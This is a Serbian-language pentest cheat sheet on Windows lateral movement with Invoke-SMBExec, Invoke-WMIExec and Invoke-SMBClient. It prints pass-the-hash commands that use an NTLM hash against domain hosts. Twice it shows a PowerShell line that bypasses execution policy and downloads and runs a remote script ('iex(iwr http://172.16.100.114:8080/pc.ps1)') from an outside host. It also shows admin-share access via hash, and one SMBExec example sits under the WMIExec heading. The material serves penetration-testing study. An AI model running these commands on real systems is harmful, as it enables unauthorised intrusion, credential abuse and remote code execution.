 ```bash
Invoke-SMBExec -Target dcorp-mgmt.my.domain.local -Domain my.domain.local -Username username -Hash b38ff50264b74508085d82c69794a4d8 -Command 'powershell -ep bypass -Command "iex(iwr http://172.16.100.114:8080/pc.ps1 -UseBasicParsing)"' -verbose
```

**Invoke-WMIExec**

Invoke-WMIExec je PowerShell skripta koja omogućava izvršavanje komandi na udaljenom Windows računaru putem WMI (Windows Management Instrumentation) protokola. Ova tehnika se često koristi u pentestiranju kako bi se ostvario udaljeni pristup ciljnom sistemu.

Skripta koristi WMI objekat Win32\_Process za pokretanje komandi na ciljnom računaru. Da bi se koristila, potrebno je da korisnik ima odgovarajuće privilegije na ciljnom sistemu.

Kako bi se izvršila komanda na udaljenom računaru, potrebno je navesti IP adresu ili DNS ime ciljnog računara, korisničko ime i lozinku sa odgovarajućim privilegijama. Takođe je moguće navesti i domen ukoliko je potrebno.

```powershell
Invoke-WMIExec -Target <IP_adresa> -Username <korisničko_ime> -Password <lozinka> [-Domain <domen>]
```

Nakon uspešne autentifikacije, korisnik može izvršavati komande na ciljnom računaru koristeći PowerShell sintaksu.

Ova tehnika može biti korisna u situacijama kada je potrebno izvršiti komande na udaljenom Windows računaru, na primer za prikupljanje informacija, izvršavanje skripti ili preuzimanje datoteka.

```bash
Invoke-SMBExec -Target dcorp-mgmt.my.domain.local -Domain my.domain.local -Username username -Hash b38ff50264b74508085d82c69794a4d8 -Command 'powershell -ep bypass -Command "iex(iwr http://172.16.100.114:8080/pc.ps1 -UseBasicParsing)"' -verbose
```

**Invoke-SMBClient**

Invoke-SMBClient je PowerShell skripta koja omogućava interakciju sa SMB (Server Message Block) protokolom na Windows operativnom sistemu. Ova skripta omogućava izvršavanje različitih operacija na SMB serverima, kao što su preuzimanje i slanje datoteka, izlistavanje direktorijuma i izvršavanje komandi na daljinu.

Korišćenje Invoke-SMBClient je veoma jednostavno. Prvo je potrebno učitati skriptu u PowerShell sesiju. Nakon toga, možete koristiti različite komande za interakciju sa SMB serverom. Na primer, možete koristiti komandu `Invoke-SMBClient -Command "get file.txt"` za preuzimanje datoteke sa SMB servera.

Ova skripta je veoma korisna za testiranje sigurnosti i penetraciono testiranje. Može se koristiti za proveru konfiguracije SMB servera, identifikaciju slabosti i pronalaženje potencijalnih rizika. Takođe, može se koristiti za prikupljanje informacija o sistemima i izvršavanje napada na daljinu.

Važno je napomenuti da je korišćenje Invoke-SMBClient skripte ilegalno bez odobrenja vlasnika sistema. Uvek se pridržavajte zakona i etičkih smernica prilikom korišćenja ovakvih alata.

```bash
Invoke-SMBClient -Domain dollarcorp.moneycorp.local -Username svcadmin -Hash b38ff50264b74508085d82c69794a4d8 [-Action Recurse] -Source \\dcorp-mgmt.my.domain.local\C$\ -verbose
```
